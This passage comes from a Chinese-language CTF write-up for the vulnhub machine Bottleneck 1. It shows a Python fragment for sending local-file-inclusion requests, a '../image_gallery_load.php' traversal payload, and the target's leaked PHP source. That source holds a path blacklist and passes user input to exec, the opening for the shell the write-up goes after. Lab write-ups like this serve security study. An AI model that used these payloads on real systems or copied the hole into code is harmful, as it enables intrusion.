 ```
        response = r1.text
        if not response:
            print("no response")
        else:
            print(response)
        print('---------------response end-----------------')
    except Exception as e:
        print(e)
```

结果发现每次返回的都是同一段注释：

![][10]

由此可以猜测`LFI`本地文件包含漏洞被拦截了，另辟蹊径

## 0x02 input 漏洞 get shell

在`image_gallery.php`中的源码中发现这么一句：

```
include_once 'image_gallery_load.php';
```

于是我们把`payloads.txt`替换为：

```
../image_gallery_load.php
```

得到`image_gallery_load.php`源码如下：

```
if(!isset($_GET['t']) || !isset($_GET['f'])){
    exit();
}

$imagefile = base64_decode($_GET['f']);
$timestamp = time();
$isblocked = FALSE;
$blacklist = array('/etc','/opt','/var','/opt','/proc','/dev','/lib','/bin','/usr','/home','/ids');
$messages = array("\nLet me throw away your nice request into the bin.\n".
    "The SOC was informed about your attempt to break into this site. Thanks to previous attackers effort in smashing my infrastructructure I will take strong legal measures.\n".
    "Why don't you wait on your chair until someone (maybe the police) knock on your door?\n\n");

if(abs($_GET['t'] - $timestamp) > 10){
    exit();
}
foreach($blacklist as $elem){
    if(strstr($imagefile, $elem) !== FALSE)
        $isblocked = TRUE;
}
// report the intrusion to the soc and save information locally for further investigation
if($isblocked){
    $logfile = 'intrusion_'.$timestamp;
    $fp = fopen('/var/log/soc/'.$logfile, 'w');
    fwrite($fp, "'".$imagefile."'");
    fclose($fp);
    exec('python /opt/ids_strong_bvb.py </var/log/soc/'.$logfile.' >/tmp/output 2>&1');
    print_troll();
    exit();
}
chdir('img');
$filecontent = file_get_contents($imagefile);
if($filecontent === FALSE){
    print_troll();
```

[1]: https://www.vulnhub.com/entry/bottleneck-1,374/
[2]: https://soapffz.com/427.html
[3]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_200649.png
[4]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_200527.png
[5]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_201035.png
[6]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_201138.png
[7]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_201713.png
[8]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_201746.png
[9]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_201939.png
[10]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_205021.png
[11]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_193531.png
[12]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_194854.png
[13]: https://www.secpulse.com/archives/75491.html
[14]: https://intx0x80.blogspot.com/2017/05/python-input-vulnerability_25.html
[15]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_195221.png
[16]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_200012.png
[17]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_202403.png
[18]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_203027.png
[19]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_204015.png
[20]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_204125.png
[21]: https://github.com/jivoi/pentest/blob/master/shell/rootshell.c
[22]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_211656.png
[23]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200117_210048.png
[24]: https://ischizo.com/write-up-bottleneck-1-vulnhub/
[25]: https://mp.weixin.qq.com/s/skCNWPiEPgJcHXSmsif5qQ